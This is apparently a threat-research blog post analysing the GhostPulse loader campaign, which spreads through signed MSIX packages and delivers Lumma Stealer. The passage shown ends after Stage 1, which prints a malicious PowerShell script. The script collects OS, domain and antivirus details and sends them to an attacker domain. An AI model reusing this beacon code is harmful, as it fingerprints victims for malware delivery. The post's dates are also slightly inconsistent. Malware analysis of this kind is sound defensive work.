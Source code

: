 ```yaml
---
layout: post
title: Campaign Analysis - GhostPulse
date: 23-10-2024
categories: [Emerging Threats, Malware]
tag: [Malware, Emerging Threats]
---
```


![Banner ghostpulse](assets/images/blogs/ghostpulse/Banner-ghostpulse.png)

On the 27th October 2024, [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks#stage-2) followed a campaign to compromise users with signed [MSIX](https://learn.microsoft.com/en-us/windows/msix/overview) application packages to gain initial access. The campaign leverages a stealthy loader that Elastic has named GHOSTPULSE, which decrypts and loads a final payload capable of evading detection. In October 2024, [Elastic Security Labs](https://www.elastic.co/security-labs/tricks-and-treats) posted an update to this campaign, where the GhostPulse loader hides inside a `.png` image using stegonography, eventually demploying itself and loading the **Lumma InfoStealer**

In this post, I will be covering this campaign from the beginning and right up to October 2024, analysing the malware samples as I go, and providing context on the technical aspects that allows these novel techniques to work.

## What is MSIX?

MSIX is a packaging format used by Microsoft, intended to be the successor to the older MSI and ClickOnce formats. It allows developers to package applications into containers for deployment on different devices. It aims to be the universal Windows application package format, and can be used for all types of Windows applications, including UWP (Universal Windows Platform), Windows Forms, Windows Presentation Foundation (WPF), and Win32.

The improtant point is that MSIX packages can be installed with a double-click, making them convinient for adversaries looking to exploit victims with *normal* seeming practises. However, However, MSIX requires access to purchased or stolen code signing certificates making them viable to groups of above-average resources.

In a common attack scenario, victims would be directed to download malicious MSIX packages through compromised websites, search-engine optimization (SEO) techniques, or malvertising through typosquatted domains.

The campaign will be broken down into key stages, with the 2024 evolutions of the malware discussed throughout.

## Stage 1 - The Powershell Script

The fist stage of this attack flow would involve the user getting hold of a malicious MSIX installer, such as through phishing. There are a number of MSIX installer samples for this campaign in existence, the one I cover here is different to what Elastic Security Labs covers.

Below is a Powershell script that serves as the first stage of the infection, in this infection it was called `2609_corp_user0.ps1`:

```powershell

$SS = Get-Random -Minimum 1500 -Maximum 3000
sleep -Milliseconds $SS
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12


$LoadDomen = "https://fresh-prok.site"



$osCaption = (Get-WmiObject -Class Win32_OperatingSystem).Caption
$urlEncodedOsCaption = [System.Net.WebUtility]::UrlEncode($osCaption)


$domain = Get-WmiObject Win32_ComputerSystem | Select-Object -ExpandProperty Domain
$AV = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
$dis = $AV | ForEach-Object {
    $_.displayName
}
$Names = $dis -join ", "


$lnk = "$LoadDomen/?status=start&av=$Names&domain=$domain&os=$urlEncodedOsCaption"
$response = Invoke-RestMethod -Uri $lnk -Method GET
if ($response -match "404 HTTP Error") {
    Write-Host "Received 404 HTTP Error."

    exit
}
```